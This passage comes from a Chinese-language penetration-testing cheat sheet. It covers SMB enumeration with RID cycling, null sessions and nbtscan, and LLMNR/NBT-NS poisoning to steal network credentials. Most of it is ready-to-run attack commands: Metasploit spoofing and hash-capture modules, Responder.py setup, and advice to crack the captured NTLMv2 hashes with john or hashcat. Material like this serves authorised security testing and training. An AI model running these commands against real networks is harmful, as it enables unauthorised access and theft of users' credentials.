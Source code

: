 ```
ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
```

Metasploit的RID循环攻击模块

```
use auxiliary/scanner/smb/smb_lookupsid
```

###### 手动测试空会话

```
Windows:
net use \\TARGET\IPC$ "" /u:""

Linux:
smbclient -L //192.168.99.131
```

###### NBTScan unixwiz

在Kali上安装使用：

```
apt-get install nbtscan-unixwiz 
nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
```

#### LLMNR / NBT-NS欺骗

从网络中窃取凭证

##### 使用Metasploit进行 LLMNR / NetBIOS请求

欺骗/毒化 LLMNR / NetBIOS请求：

```
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

抓取哈希

```
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

最后会得到NTLMv2 哈希，可以使用john或者hashcat破解。

##### Responder.py

你也可以选择使用 responder

```
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```

注：整个渗透测试过程可以一直允许Responder.py
